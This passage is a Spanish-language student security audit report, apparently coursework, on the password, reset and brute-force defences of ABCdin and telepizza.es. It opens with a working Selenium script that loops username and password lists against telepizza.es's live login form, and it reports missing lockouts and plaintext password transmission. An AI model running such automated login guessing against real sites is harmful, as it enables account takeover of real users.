\subsubsection{ Iniciar Sesión}

\begin{lstlisting}[lenguaje =py]
import string, random, time
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.by import By
from ctypes import sizeof
ubicacionDriver = '/usr/local/bin/chromedriver'

def readUsuarios():
    usuarios = list()
    arc = open("user.txt")
    lineas = arc.readlines()
    i = 0    #driver.get('https://www.telepizza.es/')
    for lineas in lineas:
        usuarios.append(lineas)
    return usuarios

def readPasswords():
    passwords = list()
    arc = open("pass.txt")
    lineas = arc.readlines()
    i = 0
    for lineas in lineas:
        passwords.append(lineas)
    return passwords


if __name__ == "__main__":
    options = webdriver.ChromeOptions()
    options.add_argument('--start-maximized')
    options.add_argument('--disable-extensions')

    driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
    correos=readUsuarios()
    contraseñas=readPasswords()
    driver.set_window_position(1000,0)
    driver.maximize_window()
    time.sleep(1)
    driver.get('https://www.telepizza.es/account/login')
    time.sleep(2)
    driver.find_element(By.XPATH,'//*[@id="cookie-alert"]/div/div[2]/button').click()
    i = 0
    time.sleep(2)
    
    for contraseña in contraseñas:
        for correo in correos:

            if i == 0:
                email = driver.find_element(By.ID, 'UserName')
                email.clear()
                email.send_keys(correo)
                time.sleep(5)
                i = i + 1 
            
            passw = driver.find_element(By.ID,"Password")
            passw.clear()
            passw.send_keys(contraseña)
            time.sleep(5)
            
            driver.find_element(By.ID, "login-submit").click()
            time.sleep(2)
    driver.close()
\end{lstlisting}


\newpage
\subsection{Hito IV}

\subsubsection{Chile}

\textbf{1.-¿Cuál es el largo (L) mínimo y máximo de la contraseña a utilizar? ¿Cuál es la máxima base (W) que permite utilizar el sitio? }
En esta preunta, se probaron diferentes tipos de bases, para ver cual era la capacidad de la pagina. Todas las veces que se probó la contraseña
se respetó los requerimientos de la pagina que son poseer: 

\begin{itemize}
    \item Mayusculas.
    \item Minusculas.
    \item Numero.
    \item Al menos 8 caracteres. 
\end{itemize}
Primero, se probó con Unicode, con la siguiente contraseña, la cual fue aceptada de manera exitosa tanto para realizar el cambio como para 
iniciar sesión.
\begin{itemize}
    \item U+2029U+2029
\end{itemize}
Se observa, en la imagen a continuacion la contraseña utilizada.
\begin{figure}[h]
    \centering
    
\includegraphics[width=15cm]{unicodecl.png}
\end{figure}
\\\\
Por otroa lado, se probpó con superscripts en donde, el sitio web, soportó Superscripts and subscripts,al menos para cambiar la contraseña, en donde se probó la contraseña, agregándole un ''aA'', para completar los requisitos del sistema. 
\begin{figure}[h]
    \centering
    
\includegraphics{superscript.PNG}
\end{figure}
\begin{figure}[h!]
    \centering
    
\includegraphics[width=15cm]{superscriptscl.png}
\end{figure}

Se puede observar como se logró cambiar la contraseña de manera exitosa, conteniendo esos caracteres, pero al momento de registrar, no existe una respuesta. Es decir, que
si se posee una contraseña compuesta por superscripts el inicio de sesión no será permitido, ya que no lo soporta, pero si lo admite. Razón por la cual, se concluye que no
es aceptada esta base.
\\\\
De igual manera, se probó con el abecedario de emojis, en donde se probo la siguiente contraseña, compuesta por 4 emojis y relleno de números, la cual, también fue soportada para realizar el cambio de contraseña, pero al momento de iniciar sesión no reconocía la contraseña correcta. 
\begin{figure}[h]
    \centering
    
\includegraphics[width=15cm]{emojiscl.png}
\end{figure}
Continuando con los testeos de contraseñas, se procede a probar ASCII256, en donde se prueba la siguiente contraseña. 
\begin{itemize}
    \item @#~¥§«Æ¼ñÑá\^øaA
\end{itemize}
Esta contraseña aceptó el cambio de contraseña, pero luego al momento de ingresar mediante el login, no se reconoce la entrada. Razón por la cual se probó cambiar la contraseña mediante el ''Olvidó su contraseña'' lo que causo la caída de la pagina. Lo que demuestra que no soporta este tipo de base. 
\\\\
A continuación, se verán las imágenes correspondiente al cambio de contraseña junto con la caída de la pagina. 
\begin{figure}[h]
    \centering
    
\includegraphics[width=6cm]{asci256.PNG}
\end{figure}

\begin{figure}
    \centering
    
\includegraphics[width=8cm]{caidabcdin.PNG}
\end{figure}
\newpage
Para finalizar esta sección, falta probar diversos alfabetos, correspondientes a idiomas como árabe o japonés, junto con probar la base62, la cual, es la utilizada por defecto en la mayoría de sitios webs y con la que se han creado las contraseñas que  se han aceptado para este sitio auditado.
\\\\
Se probó el alfabeto árabe, con la siguiente contraseña: 
\begin{figure}[h]
    \centering
    
\includegraphics[width=10cm]{arabe.PNG}
\end{figure}
a la cual, se le debió de agregar una letra mayúscula en conjunto de una minúscula, para que sea aceptado por el sitio. 
\begin{figure}[h]
    \centering
    
\includegraphics[width=10cm]{passarabe.PNG}
\end{figure}
En donde, se obtiene un cambio de contraseña exitoso, pero al momento de iniciar sesión el botón de inicio es bloqueado, lo que impide entrar con estas credenciales. Una vez mas, el sitio vuelve a aceptar cambios de contraseñas que no serán reconocidas dentro de sus inicios de sesión.
\\\\
Finalizando esta pregunta, la única base que no presento problema o algún inconveniente al momento de registrar contraseñas fue el base62, además, se lograron detectar bastantes errores dentro de los requerimientos de la pagina. En otras palabras, la pagina tiene como  requerimiento de tener una contraseña con al menos minúsculas, mayúsculas y numérico, lo cual no siempre es cumplido, ya que al ingresar algunas de las contraseñas probadas anteriormente, no siempre se cumplió con estos requerimientos, pero aun así aceptó el cambio de contraseña, y cuando posteriormente se iniciaba sesión, esta era denegada.
\newpage
\textbf{2.-El largo mínimo/máximo está restringido desde el cliente?}
\newline
Para poder obtener el largo máximo aceptado como contraseña se fue probando con contraseñas de distinto tamaño ,llegando a la conclusión de que tiene un máximo de 255 caracteres. Se fue probando de 100 en 100, hasta que la pagina empezó a denegar la contraseña. Es por esto que se redujo de 10 en 10 hasta que aceptara, lo que se llegó a 255 como tamaño máximo siempre y cuando cumpla con las condiciones. 

\begin{figure}[h!]
    \centering
    
\includegraphics[width=10cm]{pass.PNG}
\end{figure}

\textbf{3.-¿Existe comprobación de robustez de la contraseña al momento de registrarse? En caso de ser así, intente deshabilitar esta opción y verifique si el servidor acepta el uso de contraseñas débiles. En caso de no poder, indique porqué no lo logró.}
\newline
Si, el sistema te obliga a tener como mínimo 3 tipos de alfabeto, en este caso se utilizo minúsculas, mayúsculas y números. Por otro lado, no se encuentra limitado por el Cliente, sino por el servidor, razón por la cual no puede ser modificado. 

\begin{figure}[h!]
    \centering
    
\includegraphics[width=14cm]{limpass.PNG}
\end{figure}
\newline
\textbf{ 4.-¿Se transmite la contraseña en texto plano?}
\newline
   No, la contraseña se muestra, pero en base 64, e intente decifrarla pasándola a texto plano, pero existe otro tipo de cifrado aplicado a la contraseña.
\begin{figure}[h!]
    \centering
    \includegraphics[width=14cm]{contraseñasencriptadascl.png}

\end{figure}
\newline
\textbf{ 5.-¿En qué variable se transmite al servidor el usuario y contraseña? (Variable utilizada en GET o POST, no en el HTML)}
\newline
Se entrega tanto el correo como la contraseña ingresada dentro de un método POST, en donde es enviada la solicitud al servidor. Y se observa en la imagen correspondiente a la pregunta anterior que es lo enviado mediante el método POST.
\newpage
\textbf{ 6.-¿Qué información se solicita para restablecer la contraseña?}
\newline
Para poder restablecer la contraseña solo se solicita el correo en conjunto de un captcha que al completarlo envía un correo al dueño de la cuenta, en donde tendrá un acceso directo para realizar un cambio de contraseña directo.
\newline 
\textbf{7.-¿Cómo opera el servicio de restablecer contraseña? (se envía la existente, se crea una temporal o el usuario reinicia la antigua por una nueva)}
 \newline 
Para restablecer la contraseña, es necesario ingresar el correo, y al correo llegara un link, en donde si ingresar te permitirá de manera inmediata ingresar una nueva contraseña, es decir, se reinicia la contraseña anterior. 
\newline

\textbf{ 8.-¿En el proceso de reinicia se expone información privada del usuario? ¿La información expuesta está completa o de forma parcial (n***@gmail.com)?}
\newline
Es completamente privada, ya que no se muestra ningún correo al momento de restablecer
\\\\
\textbf{9.-En caso de generar una contraseña temporal. ¿Qué patrón tiene la nueva contraseña al reiniciarla? Automatice 10 reinicios de la contraseña (utilizando el proceso c) para obtener el patrón de las nuevas contraseñas, representado por una expresión regular. La extracción de las contraseñas nuevas que le lleguen al correo electrónico o celular, lo puede hacer de forma manual.}
\newline
El sistema no entrega una contraseña temporal al momento de solicitar restablecer los datos, por ende, no se podrá obtener una contraseña temporal por parte del sistema. 
\\\\
\textbf{10.-¿El sitio recuerda contraseñas antiguas? ¿Cuántas? ¿Es posible eliminar esas contraseñas de la memoria del servidor (se pueden sobrescribir)?}
Sitio correspondiente a ABCdin, no guarda información relacionada a contraseñas antiguas, es mas, permite cambiar la contraseña antigua por la misma.Se probó cambiando las pass antigua: newPASS123 por exactamente la misma y fue aceptada sin ninguna notificación por parte del sistema.

\\\\ \newline

\textbf{11.-¿Las políticas del usuario obligan a entregar información verdadera? Verifique si el sitio obliga a ingresar su segundo apellido. En caso de ser así, ¿Qué podría hacer un usuario que solo tenga uno, sin tener que falsificar sus datos?} \newline
Dentro de los términos y condiciones aceptados al momento de crear la cuenta, esta establecido que se debe crear la cuenta con datos personales, es lo mas especifico que piden. Pero estos datos pueden ser falsificados o bien modificados sin tener algún aviso
o alerta de que no son reales. Pero, estos datos son utilizados para el contacto, o bien, para poder hacer valer seguros de compra. Ya que, todas las compras son asociadas a un rut de usuario, el cual debe coincidir con los 
datos que son ingresados. 
De no ser así, la persona no podrá optar, probablemente, a estos beneficios.
En términos generales, se puede falsificar la información o bien omitir datos, aunque esta pagina web solo solicita el eso de nombre principal
y apellido, el resto es obtenido mediante el rut, el cual no puede ser modificado. 
\\\\
\textbf{12.-¿El sitio es susceptible a ataques por fuerza bruta? ¿Cómo lo evita? Pruebe automatizando 100 accesos (recuerde que su cuenta se podría inhabilitar o bloquear, por lo que deberá realizar este proceso al final y no a última hora)}
\newline
El sitio de ABCdin es altamente susceptible a ataques por fuerza fuerza bruta, ya que este, no tiene ningún tipo de bloqueo ante múltiples intentos fallidos con cuentas registradas. \newline
Fue posible hacer los 100 intentos, y aproximadamente unos 40 extras sin tener ningún tipo de bloqueo, o restricción de tiempo para volver a generar estos intentos. 
\newpage
\textbf{13.-¿Existe la opción de eliminar su cuenta? En caso de ser así, ¿Queda algún indicio de la existencia de su cuenta? Para verificar si existe algún indicio de la cuenta se puede realizar lo siguiente:  Volver a registrarse con los mismos datos, o ir repitiendo datos (en distintas cuentas) para determinar cuáles se van guardando, Recuperar la contraseña.}
No, no existe la posibilidad de eliminar la cuenta, es necesario enviar una solicitud escrita a la pagina, donde se deberá justificar las razones por las cuales se intentará borrar la cuenta.
\\\\
\textbf{14.-¿Los resultados obtenidos se condicen con las políticas de privacidad y seguridad del sitio?}
\newline
El sitio web, no tiene publicado ningún tipo de políticas de privacidad que especifique mucha información, lo único que se encuentra en el sitio 
es que aseguran que sus datos serán encriptados y de tipo confidencial, sin poder tener accesos a ellos. Además, aseguran usar SSL dentro de su sitio web, asegurando que es el mejor servicio utilizado en seguridad para paginas webs. 

\newpage
\subsubsection{Europa}
\textbf{1.-¿Cuál es el largo (L) mínimo y máximo de la contraseña a utilizar? ¿Cuál es la máxima base (W) que permite utilizar el sitio? }
\newline
La contraseña que se debe establecer dentro de la pagina telepizza.es, debe de contener entre 4 y 15 caracteres.
\begin{figure}[h!]
    \centering
    
\includegraphics[]{PASSLARGEU.PNG}
\end{figure}
\newline
\textbf{2.-El largo mínimo/máximo está restringido desde el cliente?}
\newline
No, las restricciones de contraseñas están echas desde el servidor. Se intento modificar desde el cliente como se muestra en la siguiente imagen, aumentando el máximo a 20.
\begin{figure}[h!]
    \centering
    
\includegraphics[width=15cm]{passcliente1.PNG}
\end{figure}
\newline
Luego, se probó dentro de la pagina ingresar con una contraseña fuera de los rangos, para ver si pudiese existir un aviso de contraseña denegada. En donde nos suelta un aviso de exceso de caracteres.
\begin{figure}[h!]
    \centering
    
\includegraphics[width=12cm]{passcliente2.PNG}
\end{figure}
\newline
\textbf{3.-¿Existe comprobación de robustez de la contraseña al momento de registrarse? En caso de ser así, intente deshabilitar esta opción y verifique si el servidor acepta el uso de contraseñas débiles. En caso de no poder, indique porqué no lo logró.}
\newline
No, esta pagina no tiene comprobación de robustas, lo único que es solicitado es respetar el mínimo y máximo de tamaño para la contraseña, fuera de eso no pide ningún tipo de carácter o respetar mayúsculas o minúsculas.
\newpage
\textbf{ 4.-¿Se transmite la contraseña en texto plano?}
\newline
Si, a diferencia de la otra pagina auditada, se podrá ver en texto plano los datos con los cuales se ha iniciado sesión, para esto, simplemente hay que hacer una grabación de los paquetes que se están registrando al momento de iniciar sesión y ver los formularios que son enviados. En donde se pueden ver, tal cual, como son enviados, en otras palabras, en texto plano. 
\begin{figure}[h!]
    \centering
    \includegraphics[width=15cm]{passtextoplanoeu.PNG}
\end{figure}
\newline
\textbf{ 5.-¿En qué variable se transmite al servidor el usuario y contraseña? (Variable utilizada en GET o POST, no en el HTML)}
\newline
El usuario junto a la contraseña son enviados mediante un método POST. Para poder obtener este resultado, fue necesario ver el encabezado del paquete. 
\begin{figure}[h!]
    \centering
    \includegraphics[width=15cm]{posteu.PNG}
\end{figure}
\newline
\textbf{ 6.-¿Qué información se solicita para restablecer la contraseña?}
\newline
Para restablecer la contraseña, es necesario ingresar el correo de la cuenta a la que uno esta intentando ingresa. Posteriormente llegará un correo en donde se te redirigirá a la pagina auditada para poder realizar el cambio de contraseña, en donde, de manera inmediata podrás escribir una nueva contraseña junto con su confirmación, sin tener que ingresar algún dato extra.
\begin{figure}[h!]
    \centering
    
\includegraphics[width=10cm]{olvidepasseu.PNG}
\end{figure}
\newline
\textbf{7.-¿Cómo opera el servicio de restablecer contraseña? (se envía la existente, se crea una temporal o el usuario reinicia la antigua por una nueva)}
\newline
El servicio relacionado con restablecer contraseña no crea ninguna contraseña temporal, ni mucho menos envía la contraseña que se poseía antes y fue olvidada, sino que, como se mencionó en la pregunta anterior, se puede cambiar de forma directa siempre y cuando se tenga acceso al correo.
\newline
\textbf{ 8.-¿En el proceso de reinicia se expone información privada del usuario? ¿La información expuesta está completa o de forma parcial (n***@gmail.com)?}
\newline
No, no se expone ningún tipo de dato o información que tenga relación con cuentas.
\newline
\textbf{9.-En caso de generar una contraseña temporal. ¿Qué patrón tiene la nueva contraseña al reiniciarla? Automatice 10 reinicios de la contraseña (utilizando el proceso c) para obtener el patrón de las nuevas contraseñas, representado por una expresión regular. La extracción de las contraseñas nuevas que le lleguen al correo electrónico o celular, lo puede hacer de forma manual.}
\newline
No se genera ninguna contraseña temporal, por ende, no se generó un programa para la automatización de procesos.
\newline
\textbf{10.-¿El sitio recuerda contraseñas antiguas? ¿Cuántas? ¿Es posible eliminar esas contraseñas de la memoria del servidor (se pueden sobrescribir)?}
\newline
Para verificar esta información, se intentó cambiar la contraseña antigua, por exactamente la misma contraseña y todas las que se han utilizado anteriormente, en donde la pagina no presento ningún problema, ni negó ingresar o registrar contraseñas anteriores, lo que deja evidenciado que no existe ningún registro de contraseñas anteriores. 
\newline
\textbf{11.-¿Las políticas del usuario obligan a entregar información verdadera? Verifique si el sitio obliga a ingresar su segundo apellido. En caso de ser así, ¿Qué podría hacer un usuario que solo tenga uno, sin tener que falsificar sus datos?}
\newline
En teoría , se puede usar datos falsos, la pagina jamas te restringirá rellenar con información que no sea real, pero, si al momento de tener algún inconveniente, al ser un sitio enfocado en la venta de alimentos, será necesario cumplir con la información real, para así hacer valer los derechos como comprador.
\newline
\textbf{12.-¿El sitio es susceptible a ataques por fuerza bruta? ¿Cómo lo evita? Pruebe automatizando 100 accesos (recuerde que su cuenta se podría inhabilitar o bloquear, por lo que deberá realizar este proceso al final y no a última hora)}
\newline
No, el sitio auditado, no es susceptible a fuerza bruta, se intento forzar el ingreso a una cuenta, ingresando con contraseñas aleatorias, claramente erróneas, y en ningún caso saltó un aviso de exceso de intentos o algún captcha que valide si somos un robot o algún proceso automatizado. Pero al momento de ingresar la contraseña correcta, sale un aviso de que la cuenta necesita de una validación para poder ingresar.
\begin{figure}[h!]
    \centering
    
\includegraphics[width=15cm]{blokiaeu.PNG}
\end{figure}
\newpage

\textbf{13.-¿Existe la opción de eliminar su cuenta? En caso de ser así, ¿Queda algún indicio de la existencia de su cuenta? Para verificar si existe algún indicio de la cuenta se puede realizar lo siguiente:  Volver a registrarse con los mismos datos, o ir repitiendo datos (en distintas cuentas) para determinar cuáles se van guardando, Recuperar la contraseña.}
\newline
Esta pagina, si posee la posibilidad de eliminar la cuenta. 
\begin{figure}[h!]
    \centering
    
\includegraphics[width=15cm]{botarcuenta.PNG}
\end{figure}
\newline 
En donde se siguieron todos los pasos para poder dar de baja la cuenta. Primero, salieron avisos que no se podría dar de baja la cuenta
\begin{figure}[h!]
    \centering
    
\includegraphics[width=5cm]{noblok.PNG}
\end{figure}
\newline

Luego, cualquier acceso a la cuenta o interacción con la pagina de manera instantánea empezó a mostrar el siguiente mensaje.
\begin{figure}[h!]
    \centering
    
\includegraphics[width=15cm]{paginablokiada.PNG}
\end{figure}
\newpage
Luego, para corroborar que los datos fueron borrados, intenté ingresar otra vez, lo que me mostró el siguiente aviso.

\begin{figure}[h!]
    \centering
